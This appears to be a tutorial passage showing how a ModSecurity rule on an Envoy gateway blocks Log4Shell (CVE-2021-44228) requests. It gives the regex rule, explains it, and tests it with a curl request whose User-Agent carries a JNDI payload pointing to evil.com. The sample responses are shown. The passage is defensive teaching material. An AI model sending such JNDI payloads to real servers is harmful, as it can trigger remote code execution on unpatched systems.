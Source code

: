 ```bash
            SecRuleEngine On
            SecRequestBodyAccess On
            SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
              "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
              "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

Let’s examine briefly what this rule does. Line 1 identifies ModSec variables we want to match, entities like the `REQUEST_BODY` and `REQUEST_HEADERS`. These are entities where the contents might be logged by log4j when the request is received, so we want to be sure to protect them.

Line 2 is the condition that is applied to the variables listed in Line 1. In this case, we’re matching against strings that begin with `${jndi`.

Finally, Line 3 defines the action to be taken when the rule is matched. In this case, we are denying the request and passing back a `403 Forbidden` error code.

Now, if you try to make a request containing a header that exploits this vulnerability the request will be rejected before reaching the service.

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" http://httpbin.solo.io/anything -i
```

Since one of the REQUEST_HEADERS (`User-Agent`) contains a value that matches the regular expression in the ModSec rule, you should see the request rejected with a `403 Forbidden` error, like this:

```
HTTP/1.1 403 Forbidden
content-length: 27
content-type: text/plain
date: Mon, 13 Dec 2021 23:56:13 GMT
server: envoy

Log4Shell malicious payload
```

However, the same curl request with a proper `User-Agent` header would be accepted with no errors.

```bash
curl -H "User-Agent: curl/7.74.0" http://httpbin.solo.io/anything -i
```

Here's a snippet of the expected response:

```
HTTP/1.1 200 OK
server: envoy
date: Mon, 13 Dec 2021 23:59:34 GMT
content-type: application/json
content-length: 383
...
{
  "args": {}, 
  ...
  "headers": {
    ...
    "User-Agent": "curl/7.74.0", 
    ...
  }, 
  ...
  "url": "http://httpbin.kubernetes.rmtxxkufojcx.instruqt.io/anything"
}
```
